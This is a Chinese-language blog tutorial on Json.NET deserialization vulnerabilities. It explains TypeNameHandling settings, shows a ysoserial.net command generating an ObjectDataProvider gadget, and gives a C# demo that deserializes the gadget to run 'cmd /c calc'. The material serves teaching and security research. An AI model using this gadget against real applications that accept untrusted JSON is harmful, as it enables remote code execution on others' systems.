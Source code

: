 # Dot NET-Json.Net反序列化漏洞

  
  
&lt;!--more--&gt;  
## Json.Net基础  
Newtonsoft.Json，是一个开源的Json.Net库，官方地址：  
https://www.newtonsoft.com/json  
在使用Json的时候，开发者很多时候会涉及到几个序列化对象的使用：`DataContractJsonSerializer`、`JavaScriptSerializer`、和`Json.Net`。大多数人会选择`Json.Net`。  
## Json.Net序列化  
在`Newtonsoft.Json`中使用`JSONSerializer`可以实现`.NET`对象与`Json`之间的转化，`JSONSerializer`把`.NET`对象的属性名转换为`Json`数据中的`Key`，把对象的属性值转化为`JSON`数据中的`Value`。  
Demo  
```c#  
using Newtonsoft.Json;  
using System;  
using System.Diagnostics;  
using System.Text;  
using System.Windows.Markup;  
  
namespace JsonDeserialization  
{  
    [JsonObject(MemberSerialization.OptIn)]  
    public class JsonClass   
    {  
        private string classname;  
        private string name;  
        private int age;  
        [JsonIgnore]  
        public string Classname { get =&gt; classname; set =&gt; classname = value; }  
        [JsonProperty]  
        public string Name { get =&gt; name; set =&gt; name = value; }  
        [JsonProperty]  
        public int Age { get =&gt; age; set =&gt; age = value; }  
        public override string ToString()  
        {  
            return base.ToString();  
        }  
        public static void ClassMethod(string value)  
        {  
            Process.Start(value);  
        }  
  
    }  
    class Program  
    {  
        static void Main(string[] args)  
        {  
            JsonClass jsonclass = new JsonClass();  
            jsonclass.Name = &#34;huahua&#34;;  
            jsonclass.Age = 18;  
            jsonclass.Classname = &#34;JsonClass&#34;;  
            string json = JsonConvert.SerializeObject(jsonclass);  
            Console.WriteLine(&#34;Serialized JSON: &#34; &#43; json);  
  
        }  
    }  
}  
```  
并且有三个成员，`Classname`在序列化的过程中被忽略，此外实现了一个静态方法`ClassMethod`启动进程。序列化过程中通过创建对象实例分别给成员赋值。  
```  
Serialized JSON: {&#34;Name&#34;:&#34;huahua&#34;,&#34;Age&#34;:18}  
```  
JSON字符串并没有包含方法`ClassMethod`，因为它是静态方法，不参与实例化的过程。  
JsonSerializerSettings属性  
```  
- NullValueHandling:如果序列化时需要忽略值为NULL的属性，使用JsonSerializerSettings.NullValueHandling.Ignore来实现  
- TypeNameAssemblyFormatHandling:默认情况下Json.NET只使用类型中的部分程序集名称，为了避免在一些环境下不兼容的问题，需要使用到完整的程序集名称，包括版本号、公钥等。JsonSerializerSettings.TypeNameAssemblyFormatHandling.Full  
- TypeNameHandling:控制Json.NET是否在使用$type属性进行序列化包含.NET类型名称，并从该属性读取.NET类型名称以确定在反序列化期间要创建的类型。  
```  
修改代码添加`TypeNameAssemblyFormatHandling.Full`、`TypeNameHandling.ALL`  
```c  
static void Main(string[] args)  
        {  
            JsonClass jsonclass = new JsonClass();  
            jsonclass.Name = &#34;huahua&#34;;  
            jsonclass.Age = 18;  
            jsonclass.Classname = &#34;JsonClass&#34;;  
            string json = JsonConvert.SerializeObject(jsonclass,new JsonSerializerSettings {   
                    TypeNameAssemblyFormatHandling = TypeNameAssemblyFormatHandling.Full,  
                    TypeNameHandling = TypeNameHandling.All,  
            });  
            Console.WriteLine(&#34;Serialized JSON: &#34; &#43; json);  
  
        }  
```  
这样打印的数据中带有完整的程序集名等信息  
```  
Serialized JSON: {&#34;$type&#34;:&#34;JsonDeserialization.JsonClass, ConsoleApp2, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null&#34;,&#34;Name&#34;:&#34;huahua&#34;,&#34;Age&#34;:18}  
```  
## Json.Net反序列化  
反序列化过程就是将Json字符串转换为对象，通过创建一个新对象的方式调用`JsonConvert.DeserializeObject`方法实现的，传入两个参数，第一个参数需要被序列化的字符串、第二个参数设置序列化配置选项来指定`JsonSerializer`按照指定的类型名称处理，其中`TypeNameHandling`可选择的成员分为五种  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202506041124643.png)
默认情况下设置为`TypeNameHandling.None`，表示`Json.NET`反序列化期间不读取或写入类型名称。  
### ObjectDataProvider  
漏洞触发点在于`TypeNameHandling`这个枚举值，如果开发者设置为非空值、也就是对象(Objects)、数组(Arrays)、自动识别(Auto)、所有值(ALL)的时候都会造成反序列化漏洞。  
使用`yso`生成  
```powershell  
C:\Users\nlrvana\Desktop\ysoserial.net-master\ysoserial\bin\Release&gt;ysoserial.exe -g ObjectDataProvider -f json.net -c calc  
{  
    &#39;$type&#39;:&#39;System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35&#39;,  
    &#39;MethodName&#39;:&#39;Start&#39;,  
    &#39;MethodParameters&#39;:{  
        &#39;$type&#39;:&#39;System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089&#39;,  
        &#39;$values&#39;:[&#39;cmd&#39;, &#39;/c calc&#39;]  
    },  
    &#39;ObjectInstance&#39;:{&#39;$type&#39;:&#39;System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089&#39;}  
}  
```  
Demo  
```c#  
using Newtonsoft.Json;  
using System;  
using System.IO;  
  
namespace JsonDeserialization  
{  
    class Program  
    {  
        static void Main(string[] args)  
        {  
            string json = @&#34;{  
    &#39;$type&#39;:&#39;System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35&#39;,  
    &#39;MethodName&#39;:&#39;Start&#39;,  
    &#39;MethodParameters&#39;:{  
        &#39;$type&#39;:&#39;System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089&#39;,  
        &#39;$values&#39;:[&#39;cmd&#39;, &#39;/c calc&#39;]  
    },  
    &#39;ObjectInstance&#39;:{&#39;$type&#39;:&#39;System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089&#39;}  
}&#34;;  
            JsonConvert.DeserializeObject(json, new JsonSerializerSettings() { TypeNameHandling = TypeNameHandling.All });  
  
        }  
    }  
}  
```  
  
  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/dot-net-json.net%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/  

